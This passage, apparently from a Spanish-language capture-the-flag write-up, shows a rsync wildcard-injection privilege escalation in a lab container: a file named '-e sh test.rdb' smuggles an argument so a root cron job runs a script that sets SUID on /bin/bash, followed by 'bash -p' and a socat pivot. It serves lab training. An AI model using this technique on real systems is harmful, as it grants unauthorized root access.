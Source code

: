 Lo podemos enviar por base64 al contenedor **www** y lo ejecutamos. Vemos que hay un fichero backup.sh que se ejecuta

```bash
cat /backup/backup.sh
```

Vemos que entra en un directorio y hace un rsync de todos los ficheros que acaben con la extension .rdb para enviarlos a la maquina backup:873/src/backup, 
y finalmente borra todo lo que hay en /var/www/html y lanza un nuevo rsync para copia todo lo que hay en backup:873/src/backup.

Aqui el problema es que el commando rsync es vulnerable porque utiliza un wildcard (*.rdb). Si vamos a [gtfobins](https://gtfobins.github.io/gtfobins/rsync/#shell),
vemos que podemos lanzar commandos con el parametro -e.

#### Privesc a root del contenedor www {-}

La idea aqui seria crear un fichero con un nombre turbio que contiene -e.

1. creamos un script en bash 

    ```bash
    #!/bin/bash

    chmod u+s /bin/bash
    ```

1. lo enviamos al contenedor por base64 y lo nombramos test.rdb en el directorio /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
1. en el directorio /var/www/html/f187a0ec71ce99642e4f0afbd441a68b creamos un nuevo fichero

    ```bash
    touch -- '-e sh test.rdb'
    ```

Esperamos un poco y podemos ver que la bash es SUID y que con el comando 
```bash
 bash -p 
```
 nos convertimos en root y podemos leer la flag.
Como ya podemos utilizar ping, vamos a ver que maquina es la backup.

```bash
ping -c 1 backup
```

vemos que backup es la 172.20.0.3. Tambien podemos usar del rsync para ver los ficheros del backup. Vamos a subir el socat al contenedor www.
Como **www** tiene connectividad con la maquina **nodered**, y que esta tiene connectividad con socat (1111 <--> 2222) a nuestra maquina, podemos
usar de esto para subir ficheros.

### Ganando acceso al contenedor Backup {-}

1. Creamos la funccion __curl al contenedor www

    ```bash
    function __curl() {
        read proto server path <<<$(echo ${1//// })
        DOC=/${path// //}
        HOST=${server//:*}
        PORT=${server//*:}
        [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

